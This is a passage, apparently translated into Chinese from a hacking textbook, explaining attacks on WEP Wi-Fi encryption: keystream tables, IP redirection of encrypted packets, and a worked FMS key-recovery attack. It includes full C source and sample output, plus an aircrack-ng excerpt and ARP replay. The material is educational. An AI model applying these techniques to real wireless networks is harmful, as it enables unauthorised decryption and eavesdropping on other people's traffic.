在恢复截获消息的明文后，该 IV 的密钥流也将被知晓。这意味着这个密钥流可以用来解密任何具有相同 IV 的其他数据包，前提是它不比恢复的密钥流长。随着时间的推移，可以创建一个按每个可能的 IV 索引的密钥流表。由于只有 2²⁴个可能的 IV，如果为每个 IV 保存 1,500 字节的密钥流，该表只需要大约 24GB 的存储空间。一旦创建了这样的表，所有后续的加密数据包都可以轻松解密。

实际上，这种攻击方法会非常耗时且繁琐。这是一个有趣的想法，但还有更简单的方法来击败 WEP。

## IP 重定向

另一种解密加密数据包的方法是欺骗接入点完成所有工作。通常，无线接入点都有某种形式的互联网连接，如果这种情况成立，则可以进行 IP 重定向攻击。首先，捕获一个加密数据包，并将目标地址更改为攻击者控制的 IP 地址，而不解密数据包。然后，将修改后的数据包发送回无线接入点，它将解密数据包并将其直接发送到攻击者的 IP 地址。

由于 CRC32 校验和是一个线性、无密钥函数，因此可以修改数据包，而校验和仍然相同。

这种攻击还假设已知源和目标 IP 地址。仅基于标准的内部网络 IP 寻址方案，就可以轻松地确定这些信息。此外，由于 IV 冲突导致的密钥流重用的一些案例，也可以用来确定地址。

一旦知道了目标 IP 地址，这个值可以与所需的 IP 地址进行 XOR 运算，然后将整个内容 XOR 到加密数据包中。目标 IP 地址的 XOR 运算将抵消，留下所需的 IP 地址与密钥流进行 XOR 运算。然后，为了确保校验和保持不变，必须策略性地修改源 IP 地址。

例如，假设源地址是 192.168.2.57，目标地址是 192.168.2.1。攻击者控制着地址 123.45.67.89，并希望将流量重定向到那里。这些 IP 地址在数据包中以高 16 位和低 16 位字的形式存在。转换相当简单：

**源 IP = 192.168.2.57**

| *SH* = 192 · 256 + 168 = 50344 |
| --- |
| *SL* = 2 · 256 + 57 = 569 |

**目标 IP = 192.168.2.1**

| *DH* = 192 · 256 + 168 = 50344 |
| --- |
| *DL* = 2 · 256 + 1 = 513 |

**新 IP = 123.45.67.89**

| *NH* = 123 · 256 + 45 = 31533 |
| --- |
| *NL* = 67 · 256 + 89 = 17241 |

校验和将改变为 *N[H] + N[L] – D[H] – D[L]*，因此这个值必须从数据包的其他地方减去。由于源地址也是已知的并且不是很重要，该 IP 地址的低 16 位字是一个很好的目标：

| *S'L = SL – (NH + NL – DH – DL*) |
| --- |
| *S'L* = 569 – (31533 + 17241 – 50344 – 513) |
| *S'L* = 2652 |

因此，新的源 IP 地址应该是 192.168.10.92。可以在加密数据包中使用相同的 XOR 技巧修改源 IP 地址，然后校验和应该匹配。当数据包发送到无线接入点时，数据包将被解密并发送到 123.45.67.89，攻击者可以从中检索。

如果攻击者恰好有能力监控整个 B 类网络的包，则甚至不需要修改源地址。假设攻击者控制了整个 123.45.*X.X* IP 范围，IP 地址的低 16 位字可以策略性地选择，以不干扰校验和。如果 *NL = DH + DL – NH*，校验和将不会改变。

这里有一个例子：

| *NL* = DH + DL – NH* |
| --- |
| *NL* = 50,344 + 513 – 31,533 |
| *N'L* = 82390 |

新的目标 IP 地址应该是 123.45.75.124。

## Fluhrer, Mantin, and Shamir 攻击

Fluhrer, Mantin, and Shamir (FMS)攻击是对 WEP 最常用的攻击，由 AirSnort 等工具普及。这种攻击实际上非常神奇。它利用了 RC4 密钥调度算法的弱点以及 IVs 的使用。

存在着一些弱的 IV 值，这些值会在密钥流的第一个字节中泄露有关密钥的信息。由于相同的密钥会与不同的 IV 重复使用，如果收集到足够多的具有弱 IV 的包，并且已知密钥流的第一个字节，则可以确定密钥。幸运的是，802.11b 数据包的第一个字节是 snap 头，这几乎总是`0xAA`。这意味着可以通过将第一个加密字节与`0xAA`进行 XOR 运算来轻松地获得密钥流的第一个字节。

接下来，需要定位弱 IV。WEP 的 IV 是 24 位，这相当于三个字节。弱 IV 的形式为 (*A* + 3, *N* – 1, *X*)，其中 *A* 是要攻击的密钥字节，*N* 是 256（因为 RC4 在模 256 下工作），*X* 可以是任何值。因此，如果正在攻击密钥流的零字节，将会有 256 个弱 IV，形式为 (3, 255, *X*)，其中 *X* 的范围从 0 到 255。密钥流的字节必须按顺序攻击，因此第一个字节不能被攻击，直到零字节已知。

算法本身相当简单。首先，它执行 *A* + 3 步的密钥调度算法（KSA）。由于初始化向量（IV）将占用 *K* 数组的第一个三个字节，因此无需知道密钥即可执行此操作。如果已知密钥的零字节且 *A* 等于 1，则 KSA 可以进行到第四步，因为 *K* 数组的第一个四个字节将已知。

在这一点上，如果 *S*[0] 或 *S*[1] 在上一步被干扰，整个尝试应该被丢弃。更简单地说，如果 *j* 小于 2，则应该丢弃尝试。否则，取 *j* 的值和 *S[A* + 3] 的值，并从第一个密钥流字节中减去这两个值（当然，模 256）。这个值大约有 5% 的时间是正确的密钥字节，并且有不到 95% 的时间是随机的。如果使用足够多的弱 IV（*X* 的值不同），可以确定正确的密钥字节。需要大约 60 个 IV 才能使概率超过 50%。一旦确定了一个密钥字节，整个过程可以再次进行以确定下一个密钥字节，直到整个密钥被揭示。

为了演示，RC4 将被缩小，使 *N* 等于 16 而不是 256。这意味着所有操作都是模 16 而不是模 256，所有数组都是 16 个“字节”，由 4 位组成，而不是 256 个实际字节。

假设密钥为 (1, 2, 3, 4, 5)，并且将攻击零字节密钥，*A* 等于 0。这意味着弱 IV 应该是 (3, 15, *X*) 的形式。在这个例子中，*X* 将等于 2，因此种子值将是 (3, 15, 2, 1, 2, 3, 4, 5)。使用这个种子，密钥流的第一个字节将是 9。

| 输出 = 9 |
| --- |
| *A* = 0 |
| IV = 3, 15, 2 |
| 密钥 = 1, 2, 3, 4, 5 |
| 种子 = IV 与密钥连接 |
| *K*[] = 3 15 2 *X X X X X* 3 15 2 *X X X X X* |
| S[] = 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 |

由于密钥目前未知，*K* 数组被加载上目前所知的内容，*S* 数组被填充为从 0 到 15 的顺序值。然后，*j* 被初始化为 0，并执行 KSA 的前三个步骤。记住，所有数学运算都是模 16 进行的。

**KSA 第一步**:

| *i* = 0 |
| --- |
| *j = j + S[i] + K[i]* |
| *j* = 0 + 0 + 3 = 3 |
| 交换 *S[i]* 和 *S[j]* |
| *K*[] = 3 15 2 *X X X X X* 3 15 2 *X X X X X* |
| *S*[] = **3** 1 2 **0** 4 5 6 7 8 9 10 11 12 13 14 15 |

**KSA 第二步**:

| *i* = 1 |
| --- |
| *j = j + S[i] + K[i]* |
| *j* = 3 + 1 + 15 = 3 |
| 交换 *S[i]* 和 *S[j]* |
| *K*[] = 3 15 2 *X X X X X* 3 15 2 *X X X X X* |
| S[] = 3 **0** 2 **1** 4 5 6 7 8 9 10 11 12 13 14 15 |

**KSA 第三步**:

| *i* = 2 |
| --- |
| *j = j + S[i] + K[i]* |
| *j* = 3 + 2 + 2 = 7 |
| 交换 *S[i]* 和 *S[j]* |
| *K*[] = 3 15 2 *X X X X X* 3 15 2 *X X X X X* |
| S[] = 3 0 **7** 1 4 5 6 **2** 8 9 10 11 12 13 14 15 |

到这一点，*j*不小于 2，因此过程可以继续。*S*[3]是 1，*j*是 7，密钥流的第一个字节输出是 9。所以密钥的第一个字节应该是 9 –7 –1 = 1。

此信息可用于确定密钥的下一个字节，使用形式为（4，15，*X*）的 IV，并通过 KSA 进行到第四步。使用 IV（4，15，9），密钥流的第一个字节是 6。

| 输出 = 6 |
| --- |
| *A* = 0 |
| IV = 4, 15, 9 |
| 密钥 = 1, 2, 3, 4, 5 |
| 种子 = IV 与密钥连接 |
| *K*[] = 4 15 9 1 *X X X X* 4 15 9 1 *X X X X* |
| *S*[] = 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 |

**KSA 第一步**:

| *i* = 0 |
| --- |
| *j = j + S[i] + K[i]* |
| *j* = 0 + 0 + 4 = 4 |
| 交换 *S[i]* 和 *S[j]* |
| *K*[] = 4 15 9 1 *X X X X* 4 15 9 1 *X X X X* |
| *S*[] = **4** 1 2 3 **0** 5 6 7 8 9 10 11 12 13 14 15 |

**KSA 第二步**:

| *i* = 1 |
| --- |
| *j = j + S[i] + K[i]* |
| *j* = 4 + 1 + 15 = 4 |
| 交换 *S[i]* 和 *S[j]* |
| *K*[] = 4 15 9 1 *X X X X* 4 15 9 1 *X X X X* |
| *S*[] = 4 **0** 2 3 **1** 5 6 7 8 9 10 11 12 13 14 15 |

**KSA 第三步**:

| *i* = 2 |
| --- |
| *j = j + S[i] + K[i]* |
| *j* = 4 + 2 + 9 = 15 |
| 交换 *S[i]* 和 *S[j]* |
| *K*[] = 4 15 9 1 *X X X X* 4 15 9 1 *X X X X* |
| *S*[] = 4 0 **15** 3 1 5 6 7 8 9 10 11 12 13 14 **2** |

**KSA 第四步**:

| *i* = 3 |
| --- |
| *j = j + S[i] + K[i]* |
| *j* = 15 + 3 + 1 = 3 |
| 交换 *S[i]* 和 *S[j]* |
| *K*[] = 4 15 9 1 *X X X X* 4 15 9 1 *X X X X* |
| *S*[] = 4 0 **15** 3 1 5 6 7 8 9 10 11 12 13 14 **2** |
| 输出 –*j – S*[4] = key[1] |
| 6 – 3 – 1 = 2 |

再次，确定了正确的密钥字节。当然，为了演示目的，*X*的值已被策略性地选择。为了给您一个真正的统计攻击全 RC4 实现的感受，以下源代码已被包含：

### fms.c

```
#include <stdio.h>

/* RC4 stream cipher */
int RC4(int *IV, int *key) {
   int K[256];
   int S[256];
   int seed[16];
   int i, j, k, t;

   //Seed = IV + key;
   for(k=0; k<3; k++)
      seed[k] = IV[k];
   for(k=0; k<13; k++)
      seed[k+3] = key[k];

   // -= Key Scheduling Algorithm (KSA) =-
   //Initialize the arrays.
   for(k=0; k<256; k++) {
      S[k] = k;
      K[k] = seed[k%16];
   }

   j=0;
   for(i=0; i < 256; i++) {
      j = (j + S[i] + K[i])%256;
      t=S[i]; S[i]=S[j]; S[j]=t; // Swap(S[i], S[j]);
   }

   // First step of PRGA for first keystream byte
   i = 0;
   j = 0;

   i = i + 1;
   j = j + S[i];

   t=S[i]; S[i]=S[j]; S[j]=t; // Swap(S[i], S[j]);

   k = (S[i] + S[j])%256;

   return S[k];
}

int main(int argc, char *argv[]) {
  int K[256];
  int S[256];

  int IV[3];
  int key[13] = {1, 2, 3, 4, 5, 66, 75, 123, 99, 100, 123, 43, 213};
  int seed[16];
  int N = 256;
  int i, j, k, t, x, A;
  int keystream, keybyte;

  int max_result, max_count;
  int results[256];

  int known_j, known_S;

  if(argc < 2) {
    printf("Usage: %s <keybyte to attack>\n", argv[0]);
    exit(0);
  }
    A = atoi(argv[1]);
    if((A > 12) || (A < 0)) {
      printf("keybyte must be from 0 to 12.\n");
      exit(0);
    }

  for(k=0; k < 256; k++)
    results[k] = 0;

  IV[0] = A + 3;
  IV[1] = N - 1;

  for(x=0; x < 256; x++) {
    IV[2] = x;

    keystream = RC4(IV, key);
    printf("Using IV: (%d, %d, %d), first keystream byte is %u\n",
        IV[0], IV[1], IV[2], keystream);

    printf("Doing the first %d steps of KSA..  ", A+3);

    //Seed = IV + key;
    for(k=0; k<3; k++)
      seed[k] = IV[k];
    for(k=0; k<13; k++)
      seed[k+3] = key[k];

    // -= Key Scheduling Algorithm (KSA) =-
    //Initialize the arrays.
    for(k=0; k<256; k++) {
      S[k] = k;
      K[k] = seed[k%16];
    }

    j=0;
    for(i=0; i < (A + 3); i++) {
      j = (j + S[i] + K[i])%256;
      t = S[i];
      S[i] = S[j];
      S[j] = t;
    }

    if(j < 2) {  // If j < 2, then S[0] or S[1] have been disturbed.
      printf("S[0] or S[1] have been disturbed, discarding..\n");
    } else {
      known_j = j;
      known_S = S[A+3];
      printf("at KSA iteration #%d, j=%d and S[%d]=%d\n",
          A+3, known_j, A+3, known_S);
      keybyte = keystream - known_j - known_S;

      while(keybyte < 0)
        keybyte = keybyte + 256;
      printf("key[%d] prediction = %d - %d - %d = %d\n",
          A, keystream, known_j, known_S, keybyte);
      results[keybyte] = results[keybyte] + 1;
    }
  }
  max_result = -1;
  max_count = 0;

  for(k=0; k < 256; k++) {
    if(max_count < results[k]) {
      max_count = results[k];
      max_result = k;
    }
  }
  printf("\nFrequency table for key[%d] (* = most frequent)\n", A);
  for(k=0; k < 32; k++) {
    for(i=0; i < 8; i++) {
      t = k+i*32;
      if(max_result == t)
        printf("%3d %2d*| ", t, results[t]);
      else
        printf("%3d %2d | ", t, results[t]);
    }
    printf("\n");
  }

  printf("\n[Actual Key] = (");
  for(k=0; k < 12; k++)
    printf("%d, ",key[k]);
  printf("%d)\n", key[12]);

  printf("key[%d] is probably %d\n", A, max_result); 
}
```

此代码对 128 位 WEP（104 位密钥，24 位 IV）执行 FMS 攻击，使用*X*的每个可能值。要攻击的密钥字节是唯一的参数，密钥被硬编码到`key`数组中。以下输出显示了编译和执行 fms.c 代码以破解 RC4 密钥的过程。

```
reader@hacking:~/booksrc $ gcc -o fms fms.c
reader@hacking:~/booksrc $ ./fms
Usage: ./fms <keybyte to attack>
reader@hacking:~/booksrc $ ./fms 0
Using IV: (3, 255, 0), first keystream byte is 7
Doing the first 3 steps of KSA..  at KSA iteration #3, j=5 and S[3]=1
key[0] prediction = 7 - 5 - 1 = 1
Using IV: (3, 255, 1), first keystream byte is 211
Doing the first 3 steps of KSA..  at KSA iteration #3, j=6 and S[3]=1
key[0] prediction = 211 - 6 - 1 = 204
Using IV: (3, 255, 2), first keystream byte is 241
Doing the first 3 steps of KSA..  at KSA iteration #3, j=7 and S[3]=1
key[0] prediction = 241 - 7 - 1 = 233

.:[ output trimmed ]:.

Using IV: (3, 255, 252), first keystream byte is 175
Doing the first 3 steps of KSA..  S[0] or S[1] have been disturbed, 
discarding..
Using IV: (3, 255, 253), first keystream byte is 149
Doing the first 3 steps of KSA..  at KSA iteration #3, j=2 and S[3]=1
key[0] prediction = 149 - 2 - 1 = 146
Using IV: (3, 255, 254), first keystream byte is 253
Doing the first 3 steps of KSA..  at KSA iteration #3, j=3 and S[3]=2
key[0] prediction = 253 - 3 - 2 = 248
Using IV: (3, 255, 255), first keystream byte is 72
Doing the first 3 steps of KSA..  at KSA iteration #3, j=4 and S[3]=1
key[0] prediction = 72 - 4 - 1 = 67

Frequency table for key[0] (* = most frequent)
  0  1 |  32  3 |  64  0 |  96  1 | 128  2 | 160  0 | 192  1 | 224  3 |
  `1 10*`|  33  0 |  65  1 |  97  0 | 129  1 | 161  1 | 193  1 | 225  0 |
  2  0 |  34  1 |  66  0 |  98  1 | 130  1 | 162  1 | 194  1 | 226  1 |
  3  1 |  35  0 |  67  2 |  99  1 | 131  1 | 163  0 | 195  0 | 227  1 |
  4  0 |  36  0 |  68  0 | 100  1 | 132  0 | 164  0 | 196  2 | 228  0 |
  5  0 |  37  1 |  69  0 | 101  1 | 133  0 | 165  2 | 197  2 | 229  1 |
  6  0 |  38  0 |  70  1 | 102  3 | 134  2 | 166  1 | 198  1 | 230  2 |
  7  0 |  39  0 |  71  2 | 103  0 | 135  5 | 167  3 | 199  2 | 231  0 |
  8  3 |  40  0 |  72  1 | 104  0 | 136  1 | 168  0 | 200  1 | 232  1 |
  9  1 |  41  0 |  73  0 | 105  0 | 137  2 | 169  1 | 201  3 | 233  2 |
 10  1 |  42  3 |  74  1 | 106  2 | 138  0 | 170  1 | 202  3 | 234  0 |
 11  1 |  43  2 |  75  1 | 107  2 | 139  1 | 171  1 | 203  0 | 235  0 |
 12  0 |  44  1 |  76  0 | 108  0 | 140  2 | 172  1 | 204  1 | 236  1 |
 13  2 |  45  2 |  77  0 | 109  0 | 141  0 | 173  2 | 205  1 | 237  0 |
 14  0 |  46  0 |  78  2 | 110  2 | 142  2 | 174  1 | 206  0 | 238  1 |
 15  0 |  47  3 |  79  1 | 111  2 | 143  1 | 175  0 | 207  1 | 239  1 |
 16  1 |  48  1 |  80  1 | 112  0 | 144  2 | 176  0 | 208  0 | 240  0 |
 17  0 |  49  0 |  81  1 | 113  1 | 145  1 | 177  1 | 209  0 | 241  1 |
 18  1 |  50  0 |  82  0 | 114  0 | 146  4 | 178  1 | 210  1 | 242  0 |
 19  2 |  51  0 |  83  0 | 115  0 | 147  1 | 179  0 | 211  1 | 243  0 |
 20  3 |  52  0 |  84  3 | 116  1 | 148  2 | 180  2 | 212  2 | 244  3 |
 21  0 |  53  0 |  85  1 | 117  2 | 149  2 | 181  1 | 213  0 | 245  1 |
 22  0 |  54  3 |  86  3 | 118  0 | 150  2 | 182  2 | 214  0 | 246  3 |
 23  2 |  55  0 |  87  0 | 119  2 | 151  2 | 183  1 | 215  1 | 247  2 |
 24  1 |  56  2 |  88  3 | 120  1 | 152  2 | 184  1 | 216  0 | 248  2 |
 25  2 |  57  2 |  89  0 | 121  1 | 153  2 | 185  0 | 217  1 | 249  3 |
 26  0 |  58  0 |  90  0 | 122  0 | 154  1 | 186  1 | 218  0 | 250  1 |
 27  0 |  59  2 |  91  1 | 123  3 | 155  2 | 187  1 | 219  1 | 251  1 |
 28  2 |  60  1 |  92  1 | 124  0 | 156  0 | 188  0 | 220  0 | 252  3 |
 29  1 |  61  1 |  93  1 | 125  0 | 157  0 | 189  0 | 221  0 | 253  1 |
 30  0 |  62  1 |  94  0 | 126  1 | 158  1 | 190  0 | 222  1 | 254  0 |
 31  0 |  63  0 |  95  1 | 127  0 | 159  0 | 191  0 | 223  0 | 255  0 |

[Actual Key] = (1, 2, 3, 4, 5, 66, 75, 123, 99, 100, 123, 43, 213)
`key[0] is probably 1`
reader@hacking:~/booksrc $
reader@hacking:~/booksrc $ ./fms 12
Using IV: (15, 255, 0), first keystream byte is 81
Doing the first 15 steps of KSA..  at KSA iteration #15, j=251 and S[15]=1
key[12] prediction = 81 - 251 - 1 = 85
Using IV: (15, 255, 1), first keystream byte is 80
Doing the first 15 steps of KSA..  at KSA iteration #15, j=252 and S[15]=1
key[12] prediction = 80 - 252 - 1 = 83
Using IV: (15, 255, 2), first keystream byte is 159
Doing the first 15 steps of KSA..  at KSA iteration #15, j=253 and S[15]=1
key[12] prediction = 159 - 253 - 1 = 161

.:[ output trimmed ]:.

Using IV: (15, 255, 252), first keystream byte is 238
Doing the first 15 steps of KSA..  at KSA iteration #15, j=236 and S[15]=1
key[12] prediction = 238 - 236 - 1 = 1
Using IV: (15, 255, 253), first keystream byte is 197
Doing the first 15 steps of KSA..  at KSA iteration #15, j=236 and S[15]=1
key[12] prediction = 197 - 236 - 1 = 216
Using IV: (15, 255, 254), first keystream byte is 238
Doing the first 15 steps of KSA..  at KSA iteration #15, j=249 and S[15]=2
key[12] prediction = 238 - 249 - 2 = 243
Using IV: (15, 255, 255), first keystream byte is 176
Doing the first 15 steps of KSA..  at KSA iteration #15, j=250 and S[15]=1
key[12] prediction = 176 - 250 - 1 = 181

Frequency table for key[12] (* = most frequent)
  0  1 |  32  0 |  64  2 |  96  0 | 128  1 | 160  1 | 192  0 | 224  2 |
  1  2 |  33  1 |  65  0 |  97  2 | 129  1 | 161  1 | 193  0 | 225  0 |
  2  0 |  34  2 |  66  2 |  98  0 | 130  2 | 162  3 | 194  2 | 226  0 |
  3  2 |  35  0 |  67  2 |  99  2 | 131  0 | 163  1 | 195  0 | 227  5 |
  4  0 |  36  0 |  68  0 | 100  1 | 132  0 | 164  0 | 196  1 | 228  1 |
  5  3 |  37  0 |  69  3 | 101  2 | 133  0 | 165  2 | 197  0 | 229  3 |
  6  1 |  38  2 |  70  2 | 102  0 | 134  0 | 166  2 | 198  0 | 230  2 |
  7  2 |  39  0 |  71  1 | 103  0 | 135  0 | 167  3 | 199  1 | 231  1 |
  8  1 |  40  0 |  72  0 | 104  1 | 136  1 | 168  2 | 200  0 | 232  0 |
  9  0 |  41  1 |  73  0 | 105  0 | 137  1 | 169  1 | 201  1 | 233  1 |
 10  2 |  42  2 |  74  0 | 106  4 | 138  2 | 170  0 | 202  1 | 234  0 |
 11  3 |  43  1 |  75  0 | 107  1 | 139  3 | 171  2 | 203  1 | 235  0 |
 12  2 |  44  0 |  76  0 | 108  2 | 140  2 | 172  0 | 204  0 | 236  1 |
 13  0 |  45  0 |  77  0 | 109  1 | 141  1 | 173  0 | 205  2 | 237  4 |
 14  1 |  46  1 |  78  1 | 110  0 | 142  3 | 174  1 | 206  0 | 238  1 |
 15  1 |  47  2 |  79  1 | 111  0 | 143  0 | 175  1 | 207  2 | 239  0 |
 16  2 |  48  0 |  80  1 | 112  1 | 144  3 | 176  0 | 208  0 | 240  0 |
 17  1 |  49  0 |  81  0 | 113  1 | 145  1 | 177  0 | 209  0 | 241  0 |
 18  0 |  50  2 |  82  0 | 114  1 | 146  0 | 178  0 | 210  1 | 242  0 |
 19  0 |  51  0 |  83  4 | 115  1 | 147  0 | 179  1 | 211  4 | 243  2 |
 20  0 |  52  1 |  84  1 | 116  4 | 148  0 | 180  1 | 212  1 | 244  1 |
 21  0 |  53  1 |  85  1 | 117  0 | 149  2 | 181  1 | `213 12*`| 245  1 |
 22  1 |  54  3 |  86  0 | 118  0 | 150  1 | 182  2 | 214  3 | 246  1 |
 23  0 |  55  3 |  87  0 | 119  1 | 151  0 | 183  0 | 215  0 | 247  0 |
 24  0 |  56  1 |  88  0 | 120  0 | 152  2 | 184  0 | 216  2 | 248  0 |
 25  1 |  57  0 |  89  0 | 121  2 | 153  0 | 185  2 | 217  1 | 249  0 |
 26  1 |  58  0 |  90  1 | 122  0 | 154  1 | 186  0 | 218  1 | 250  2 |
 27  2 |  59  1 |  91  1 | 123  0 | 155  1 | 187  1 | 219  0 | 251  2 |
 28  2 |  60  2 |  92  1 | 124  1 | 156  1 | 188  1 | 220  0 | 252  0 |
 29  1 |  61  1 |  93  3 | 125  2 | 157  2 | 189  2 | 221  0 | 253  1 |
 30  0 |  62  1 |  94  0 | 126  0 | 158  1 | 190  1 | 222  1 | 254  2 |
 31  0 |  63  0 |  95  1 | 127  0 | 159  0 | 191  0 | 223  2 | 255  0 |

[Actual Key] = (1, 2, 3, 4, 5, 66, 75, 123, 99, 100, 123, 43, 213)
`key[12] is probably 213`
reader@hacking:~/booksrc $
```

这种攻击如此成功，以至于如果你期望任何形式的安全，就应该使用名为 WPA 的新无线协议。然而，仍然有大量无线网络仅由 WEP 保护。如今，有相当稳健的工具可以执行 WEP 攻击。一个值得注意的例子是 aircrack，它已被包含在 LiveCD 中；然而，它需要无线硬件，你可能没有。关于如何使用这个工具的文档非常丰富，而且这个工具正在不断开发中。第一份手册应该能帮助你入门。

```
AIRCRACK-NG(1)                                                   AIRCRACK-NG(1)

NAME
       aircrack-ng is a 802.11 WEP / WPA-PSK key cracker.

SYNOPSIS
       aircrack-ng [options] <.cap / .ivs file(s)>

DESCRIPTION
       aircrack-ng is a 802.11 WEP / WPA-PSK key cracker. It implements the so-
       called Fluhrer - Mantin - Shamir (FMS) attack, along with some new attacks
       by a talented hacker named KoreK. When enough encrypted packets have been
       gathered, aircrack-ng can almost instantly recover the WEP key.

OPTIONS
       Common options:

       -a <amode>
              Force the attack mode, 1 or wep for WEP and 2 or wpa for WPA-PSK.

       -e <essid>
              Select the target network based on the ESSID. This option is also
              required for WPA cracking if the SSID is cloacked.
```

再次提醒，对于硬件问题，请咨询互联网。这个程序普及了一种用于收集 IVs 的巧妙技术。等待从数据包中收集足够的 IVs 可能需要数小时，甚至数天。但由于无线仍然是一个网络，会有 ARP 流量。由于 WEP 加密不会修改数据包的大小，因此很容易识别出哪些是 ARP。这种攻击捕获了一个大小与 ARP 请求相同的数据包，然后将其在网络中重放数千次。每次，数据包都会被解密并发送到网络，同时发送一个相应的 ARP 回复。这些额外的回复不会损害网络；然而，它们确实生成了一个新的 IV 的新数据包。通过这种刺激网络的技术，只需几分钟就可以收集到足够破解 WEP 密钥的 IV。
